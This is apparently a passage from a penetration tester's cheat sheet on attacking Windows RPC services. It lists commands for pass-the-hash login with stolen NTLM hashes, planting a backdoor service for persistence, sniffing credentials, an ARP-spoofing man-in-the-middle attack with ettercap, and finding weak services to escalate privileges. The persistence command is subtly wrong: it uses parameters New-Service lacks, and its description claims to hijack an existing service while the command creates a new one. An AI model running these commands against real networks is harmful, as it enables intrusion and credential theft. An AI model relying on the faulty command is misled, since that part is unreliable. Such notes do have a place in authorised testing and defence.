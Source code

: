 ### Initial Access

#### Pass-the-Hash via RPC

*   **Tool:** \[\[Mimikatz Cheat Sheet]], \[\[CrackMapExec]]

    ```bash
    crackmapexec smb <target_ip> -u <username> -H <NTLM_hash> --rpc-enum
    ```
* **Description:** Use stolen NTLM hashes to authenticate to RPC services without needing the plaintext password.

### Persistence

#### Service Hijacking

*   **Tool:** \[\[Metasploit]], \[\[4. Tool Guides/Incomplete/PowerShell]]

    ```bash
    New-Service -Name "HijackedRPC" -Binary "C:\backdoor.exe" -Port 111
    ```
* **Description:** Hijack an existing RPC service to establish persistence within the target environment.

### Credential Harvesting

#### Packet Capture

*   **Tool:** \[\[Wireshark]]

    ```bash
    wireshark -i <interface> -f "tcp port <port>"
    ```
* **Description:** Capture traffic and extract plaintext credentials.

#### Man-in-the-Middle (MITM) Attack

*   **Tool:** \[\[ettercap]], \[\[BetterCap Cheat Sheet]]

    ```bash
    ettercap -Tq -i <interface> -M arp:remote /<target_ip>/ /<server_ip>/
    ```
* **Description:** Intercept and analyze traffic between the client and server, potentially capturing credentials by performing an ARP spoofing attack.

### Privilege Escalation

#### Abuse of Misconfigured RPC Services

*   **Tool:** \[\[Metasploit]], \[\[4. Tool Guides/Incomplete/PowerShell]]

    ```bash
    Get-Service | Where-Object { $_.DisplayName -like "*RPC*" }
    ```
* **Description:** Identify misconfigured or poorly secured RPC services that can be exploited for privilege escalation.
